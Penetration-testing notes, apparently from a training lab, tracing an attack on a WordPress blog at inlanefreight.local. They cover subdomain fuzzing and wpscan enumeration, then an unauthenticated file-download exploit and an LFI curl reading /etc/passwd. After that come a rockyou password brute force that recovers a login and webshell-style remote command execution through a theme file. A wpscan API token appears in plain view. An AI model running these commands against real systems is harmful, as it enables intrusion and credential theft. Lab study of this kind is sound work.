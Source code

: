 ___

# Vhost enum

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u 'http://inlanefreight.local' -H 'Host: FUZZ.inlanefreight.local' -fs 15189
```

```bash
whatweb blog.inlanefreight.local

WordPress[5.1.6]
```
# Wordpress

```bash
wpscan --url http://blog.inlanefreight.local --enumerate --api-token 5L1iakB9rnC4xBx5MHL1Tt42iwkbdFJsWDs3pd0ZjUY
```


WordPress theme in use: twentynineteen

Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/

Plugin(s) Identified:    
- email-subscribers

UnauthenticatedFile Download 
https://www.exploit-db.com/exploits/48698

```bash
curl 'http://blog.inlanefreight.local/wp-admin/admin.php?page=download_report&report=users&status=all'
```

- site-editor

Local File Inclusion (LFI)
https://www.exploit-db.com/exploits/44340

```bash
curl 'http://blog.inlanefreight.local/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd'
```

- the-events-calendar

User(s) Identified:  
- erika  
- admin  
- Charlie Wiggins

# Login brute force

```bash
wpscan  --url http://blog.inlanefreight.local/ -U erika --passwords /usr/share/seclists/rockyou.txt --api-token 5L1iakB9rnC4xBx5MHL1Tt42iwkbdFJsWDs3pd0ZjUY
```

Valid Combinations Found:  
- Username: erika, Password: 010203

# RCE via Theme Editor

![[Pasted image 20241016131835.png]]

```bash
curl http://blog.inlanefreight.local/wp-content/themes/twentyseventeen/404.php?0=whoami
```








